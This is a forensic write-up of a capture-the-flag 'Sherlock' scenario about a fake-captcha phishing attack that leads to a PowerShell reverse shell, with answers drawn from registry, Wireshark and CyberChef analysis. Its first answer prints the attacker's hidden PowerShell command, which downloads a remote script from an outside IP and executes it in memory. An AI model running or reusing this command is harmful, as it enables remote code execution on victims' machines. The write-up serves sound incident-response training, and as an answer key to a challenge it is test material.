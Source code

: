 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

___

### Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

#### A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

___

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)

After checking that the download name it's the same as the execution name, we search for it in Export HTTP.

![](../../Img/Pasted%20image%2020250513154311.png)

Get the hash.

![](../../Img/Pasted%20image%2020250513154506.png)

Q4: To which port did the reverse shell connect?

A: 6969

We see what the file has.

![](../../Img/Pasted%20image%2020250513155127.png)

Decode it. (I use magic) (https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)'))

![](../../Img/Pasted%20image%2020250513155219.png)

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 403

With the port, we add it to the filter in wireshark and calculate.

![](../../Img/Pasted%20image%2020250513155836.png)

![](../../Img/Pasted%20image%2020250513160049.png)

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: stageClipboard

I remember that in Q3 i saw clear http traffic, so i went to see it.

![](../../Img/Pasted%20image%2020250513160502.png)

It seems to be the web page.

![](../../Img/Pasted%20image%2020250513160526.png)

Reading through it i found it. (If the pcapng was massive, the http filter would have helped)

![](../../Img/Pasted%20image%2020250513160553.png)

Tags: [NTUSER Analysis](../../Index/NTUSER%20Analysis.md) [[RE]]